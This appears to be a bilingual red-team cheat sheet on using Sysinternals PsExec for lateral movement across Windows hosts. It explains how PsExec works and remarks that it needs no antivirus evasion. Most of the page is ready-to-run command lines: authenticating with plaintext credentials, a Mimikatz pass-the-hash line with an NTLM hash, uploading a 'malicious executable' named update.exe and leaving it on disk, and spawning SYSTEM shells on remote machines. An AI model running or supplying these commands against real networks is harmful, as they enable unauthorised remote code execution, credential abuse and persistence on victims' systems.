 ## PsExec
+ 需开启Admin$共享（默认开启）
+ 防火墙关闭，开启时提示找不到网络路径
+ 不需要考虑免杀问题，psexec.exe为windows工具
+ psexec执行命令会在目标机创建新的服务（psexesvc)，结束时自动删除。创建、删除产生大量日志，可溯源
+ how works: 
  > 1- copy a service binary to the admin$ share over smb;
  > 2- create a service onthe remote machine pointing to the binary
  > 3- Remotely start the servie
  > 4- when exited, stop the service and delete the binary
+ winexec/scexe, same to psexec
+ more to read, [using credentials to own windows boxex psexec and services](https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/)

**Microsoft sysinternal**
+ microsoft suite, execute interactive dommands(powershell, vsaddmin) over smb using named pipes.
+ How works: connect to the ADMIN$ share and uploads a psexecsvc.exe, then sc is used to start the service binary, create named pipe, and uses said pip for input/output operations.
+ not blocked by Cylance protect, generates a log with informational risk level on dashboaard.

```bash
# run with password
PsExec.exe /accepteula \\192.168.1.2 -u CORP\user -p password cmd.exe

# pass the hash
## By default, PsExec does not pass the hash by itself, it requires Windows Credential Editor or Mimikatz
sekurlsa::pth /user:user /domain:CORP /ntlm:8846f7eaee8fb117ad06bdd830b7586c
PsExec.exe /accepteula \\192.168.1.2 cmd.exe

# run psexec by uploading malicious executable
## This will continue the PsExec session through named pipe, and will only terminate once the process is terminated.
## -c parameter will manually cleanup the executable.
PsExec.exe /accepteula \\192.168.1.2 -u CORP\user -p password -c update.exe

## This will kill the PsExec session and leave the malicious executable on disk
PsExec.exe /accepteula \\192.168.1.2 -u CORP\user -p password -d update.exe

# 获取远程主机的cmd shell
psexec \\10.10.1.2 -u administrator -p password cmd

# 以SYSTEM身份交互式运行注册表编辑器，使远程主机看到程序运行界面
## -i：在远程主机交互式运行程序
## -s：以SYSTEM身份运行远程主机程序
psexec \\10.10.1.2 -u administrator -p password -s -i regedit.exe

# 以SYSTEM身份在远程主机后台运行test.exe，命令执行后返回
## -d：远程主机程序执行后立刻返回，无需等待程序运行结束
psexec \\10.10.1.2 -u administrator -p password -s -d c:\test.exe
```
